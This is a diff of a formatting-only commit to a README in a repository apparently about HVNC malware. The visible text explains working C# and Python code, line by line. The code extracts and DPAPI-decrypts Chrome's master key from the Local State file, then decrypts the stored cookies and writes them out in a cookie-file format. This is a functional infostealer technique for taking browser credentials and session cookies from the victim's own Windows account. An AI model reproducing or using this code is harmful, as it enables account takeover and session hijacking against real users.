

Before and after one commit to DevilBot000/HVNC-HTML, a Markdown page: README.md, 2 parts joined by grey strips. Shown at 82% size. Rendered like a GitHub page; blank space fills up the shorter version.

```diff
--- a/README.md
+++ b/README.md
@@ -701,44 +701,44 @@ Obtaining and decrypting the key:
 
     }
 
-[/CODE]
-
-
-
-[CODE]
+
+
+
+
+
 
     string localStatePath = Path.Combine(Environment.GetFolderPath(Environment.SpecialFolder.LocalApplicationData), @"Google\Chrome\User Data\Local State");
-[/CODE] Specifies the path to the file with the key
-[CODE]
+Specifies the path to the file with the key
+
 
     string localStateData = File.ReadAllText(localStatePath);
-[/CODE] Reads data from a file
-[CODE]
+Reads data from a file
+
 
     dynamic json = JObject.Parse(localStateData);
-[/CODE] Converts file contents to json
-[CODE]
+Converts file contents to json
+
 
     string encryptedKeyBase64 = json.os_crypt.encrypted_key;
-[/CODE] Searches for a key by encrypted_key
-[CODE]
+Searches for a key by encrypted_key
+
 
     byte[] encryptedKey = Convert.FromBase64String(encryptedKeyBase64);
-[/CODE] Decodes a key from base64 into bytes
-[CODE]
+Decodes a key from base64 into bytes
+
 
     byte[] trimmedKey = encryptedKey.Skip(5).ToArray();
-[/CODE] Removes first 5 bytes
-[CODE]
+Removes first 5 bytes
+
 
     byte[] decryptedKey = ProtectedData.Unprotect(trimmedKey, null, DataProtectionScope.CurrentUser);
     string decryptedKeyBase64 = Convert.ToBase64String(decryptedKey);
     Console.WriteLine($"Decrypted Key (Base64): {decryptedKeyBase64}");
- [/CODE] Decrypts via DPAPI using the System.Security.Cryptography library
+Decrypts via DPAPI using the System.Security.Cryptography library
 
 Now let's look at the code for decrypting the password using the key obtained earlier:
 
-[CODE=python]
+[python]
 
     import sqlite3
 
@@ -1628,34 +1629,32 @@ We have already discussed the decryption function earlier in an example of how i
 
         print(f"Error cookies: {e}")
 
-[/CODE]
 
 In this code, a temporary database is first created, then a connection is made to the database. The database takes data from these columns:
 
-[CODE=python]
+[python]
 
     host_key, name, encrypted_value, path, expires_utc, is_secure, is_httponly
-[/CODE]
+
 
 
 
 Then the decryption function is called:
 
-[CODE=python]
+[python]
 
     decrypted_value = decrypt_cookie(item[2], master_key)
 
-[/CODE]
 
 
 
 After this, data is written from the database columns in a certain order:
 
-[CODE=python]
+[python]
 
     {item[0]}\t{str(bool(item[5])).upper()}\t{item[3]}\t{str(bool(item[6])) .upper()}\t{item[4]}\t{item[1]}\t{decrypted_value}
 
-[/CODE]
+
 
 
 
```
Also changed, not shown: other parts of README.md (+85 -84 lines).
